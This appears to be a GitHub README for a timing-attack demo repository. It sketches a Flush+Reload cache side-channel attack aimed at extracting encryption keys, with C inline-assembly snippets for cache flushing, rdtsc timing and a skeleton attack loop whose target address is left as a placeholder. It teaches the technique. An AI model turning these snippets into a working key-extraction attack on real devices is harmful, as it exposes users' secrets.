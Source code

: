 To demonstrate a malicious app that performs a timing attack to extract encryption keys, such as the one used by applications to encrypt storage, you would need to show how the app can flush the CPU cache and measure the timing of secret-dependent operations with sufficient precision. Below is a conceptual overview of how such an attack might be constructed and demonstrated:

# Overview of the Attack
Flush+Reload Timing Attack: This attack leverages the CPU cache to infer information about secret-dependent operations by measuring the time it takes to access data.

### Prerequisites:
- [x] Ability to run unprivileged code on the target device.
- [x] High-precision timers to measure cache access times.
- [x] Knowledge of where in memory the secrets or secret-dependent operations are likely to be.

## Steps to Construct the Attack
1. Setting Up the Environment
Install Necessary Tools: You'll need tools for monitoring and manipulating the CPU cache and measuring time with high precision.

### Install necessary packages
<pre>
apt-get install build-essential perf
</pre>

2. Flush the CPU Cache
Use clflush instruction to flush the CPU cache. This instruction is usually available through inline assembly or specific libraries.

<pre>
void flush_cache(void *addr) {
    asm volatile("clflush (%0)" :: "r"(addr));
}
</pre>

3. Measure Access Time
Use high-precision timers to measure the time it takes to access data.

<pre>
uint64_t measure_access_time(void *addr) {
    uint64_t start, end;
    asm volatile("mfence\n\t"
                 "rdtsc\n\t"
                 "lfence\n\t"
                 "mov %%rax, %0\n\t"
                 : "=r" (start)
                 :
                 : "%rax", "%rdx");
    asm volatile("mov (%0), %%rax\n\t" :: "r"(addr) : "rax");
    asm volatile("mfence\n\t"
                 "rdtsc\n\t"
                 "lfence\n\t"
                 "mov %%rax, %0\n\t"
                 : "=r" (end)
                 :
                 : "%rax", "%rdx");
    return end - start;
}
</pre>

4. Identify Secret-Dependent Operations
Identify the memory addresses of secret-dependent operations. This requires understanding the target application's behavior and memory layout.

5. Conduct the Timing Attack
Repeatedly flush the cache and measure the access times to infer the secret. This involves statistical analysis to distinguish between cache hits and misses.

<pre>
void perform_attack() {
    void *target_addr = /* address of the secret-dependent operation */;
    while (1) {
        flush_cache(target_addr);
        uint64_t time = measure_access_time(target_addr);
        if (time < THRESHOLD) {
            // Cache hit, likely secret access
            // Collect timing data and analyze
        } else {
            // Cache miss
        }
    }
}
</pre>

# Timing Attack Variations
Timing attacks on loading or processing secrets can be introduced in various ways. The delay may be caused by:

- [x] :zap: Function Calls: Delays introduced by calling different functions for correct or incorrect characters or operations[^1].
- [x] :zap: Conditional Branching: Conditional branches may introduce different timing behavior based on the data being processed[^2].
- [x] :zap: Differences in Processing Under Different Conditions: Different processing paths or states may cause the system to exhibit varying delays depending on the condition being met (e.g., whether the secret is correctly guessed or not)[^3].


[^1]: [demo_delay_by_call_function.py](https://github.com/ursa-mikail/demo_timing_attack/blob/main/demo_delay_by_call_function.py)  
  Delays introduced by calling different functions.
[^2]: [demo_delay_by_conditional_branching.py](https://github.com/ursa-mikail/demo_timing_attack/blob/main/demo_delay_by_conditional_branching.py)  
  Delays introduced by conditional branching.
[^3]: [demo_delay_by_process_condition_breaking.py](https://github.com/ursa-mikail/demo_timing_attack/blob/main/demo_delay_by_process_condition_breaking.py)  
  Delays introduced by different processes or instructions.


